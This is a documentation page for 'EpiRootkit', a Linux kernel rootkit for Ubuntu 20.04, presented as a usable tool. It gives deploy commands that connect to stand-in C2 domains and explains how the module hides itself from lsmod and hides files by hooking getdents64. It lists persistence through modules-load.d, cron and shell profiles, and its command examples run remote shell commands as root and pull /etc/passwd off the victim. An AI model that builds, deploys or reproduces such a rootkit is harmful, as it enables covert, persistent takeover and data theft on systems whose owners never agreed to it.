 ```yaml
---
title: "EpiRootkit Overview"
description: "Linux kernel rootkit for Ubuntu 20.04 / kernel 5.4.0"
icon: "shield"
date: "2025-05-25T16:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 501
---
```


# EpiRootkit

Linux kernel rootkit implementation for Ubuntu 20.04 LTS (kernel 5.4.0).

## Features

- **C2 Communication**: TCP connection with domain support
- **DNS Resolution**: Kernel-space domain name resolution
- **Remote Commands**: Execute shell commands with output capture
- **File Transfer**: Upload/download files between C2 and victim
- **Authentication**: SHA-512 password verification with rate limiting
- **Stealth**: Hide module from `lsmod` and files from directory listings
- **Persistence**: Multiple mechanisms to survive reboots

## Quick Demo

```bash
# 1. Build and deploy
cd rootkit && make
sudo ./deploy_rootkit.sh address=c2.example.com port=443

# 2. Start C2 server  
cd attacking_program && pnpm start

# 3. Use rootkit
auth Client-1 password
# SUCCESS: Authentication successful

exec Client-1 whoami
# Exit code: 0
# Output: root

status Client-1
# EpiRootkit Status: Version 1.0.0, Module Hidden: YES
```

## DNS Resolution Feature

**Real rootkit behavior with domain-based C2:**

```bash
# Deploy with domain instead of IP
sudo ./deploy_rootkit.sh address=jules-c2.example.com port=443

# Kernel messages show DNS resolution
dmesg | tail -5
# [2025-05-25 16:13:09] Resolving domain: jules-c2.example.com
# [2025-05-25 16:13:09] Resolved to 203.0.113.42
# [2025-05-25 16:13:09] Connected to C2 server
```

**Benefits:**
- **Dynamic infrastructure**: Easy C2 server changes
- **Load balancing**: DNS can rotate between servers  
- **Stealth**: Less suspicious than hardcoded IPs
- **Resilience**: Backup domains for takedown resistance

## Core Components

### Network Layer
- **Connection Management**: Persistent TCP with auto-reconnect
- **DNS Resolution**: Kernel-space resolver using 8.8.8.8
- **Keepalive System**: 60-second ping/pong monitoring
- **Socket Handling**: Low-level network operations

### Command System
- **Authentication**: SHA-512 password verification
- **Execution**: Shell commands with output capture
- **File Operations**: Upload/download with Base64 encoding
- **Status Reporting**: System and rootkit information
- **Persistence Control**: Install/remove boot mechanisms
- **Stealth Control**: Toggle module/file hiding

### Stealth Features
- **Module Hiding**: Remove from kernel module list
- **File Hiding**: Hide files with specific prefixes
- **Syscall Hooking**: kretprobe on `ksys_getdents64`

### Persistence Mechanisms
- **modules-load.d**: Systemd automatic loading
- **Cron Jobs**: Scheduled checking (every 5 minutes)
- **Shell Profiles**: Login-triggered loading

## Architecture

### Two-Stage Deployment
```
Deployment Script  →  EpiRootkit Module  →  Target System
(Stage 1: Loader)     (Stage 2: Runtime)    (Linux Kernel)
```

### Communication Flow
```
C2 Server  ←→  Network/DNS  ←→  EpiRootkit  ←→  Linux Kernel
(Node.js)      (TCP/UDP)       (Module)        (System Calls)
```

## Configuration

Edit `rootkit/core/config.h`:
```c
#define C2_SERVER_ADDRESS "c2.example.com"  // Domain or IP
#define C2_SERVER_PORT 4444
#define ENABLE_PERSISTENCE 1       // Auto-install persistence
#define ENABLE_MODULE_HIDING 1     // Hide by default
#define ENABLE_FILE_HIDING 1       // Hide files with prefixes
```

## Technical Stack

- **Target**: Ubuntu 20.04 LTS, kernel 5.4.0, x86_64
- **Language**: C (kernel module) + Node.js (C2 server)
- **APIs**: ftrace, kretprobe, VFS, crypto API, UDP sockets
- **Network**: TCP (C2) + UDP (DNS resolution)
- **Authentication**: SHA-512 with rate limiting (5 attempts/60s)

## Command Examples

```bash
# Client management
ls                    # List connected clients
auth Client-1 password  # Authenticate

# System reconnaissance  
exec Client-1 whoami
exec Client-1 uname -a
exec Client-1 ps aux

# File operations
upload Client-1 ./tool.sh /tmp/
download Client-1 /etc/passwd

# Stealth operations
hide_module Client-1     # Hide from lsmod
hide_files Client-1      # Enable file hiding

# Persistence
persist Client-1 install  # Install all mechanisms
```

## Documentation

- **[Deployment](./deployment.md)**: Build and load with domain support
- **[Connection](./connection-authentication.md)**: Network communication
- **[Commands](./features/command-execution.md)**: Remote command execution
- **[File Transfer](./features/file-transfer.md)**: Upload/download files
- **[Stealth](./features/hiding.md)**: Module and file hiding
- **[Persistence](./features/persistence.md)**: Boot survival mechanisms


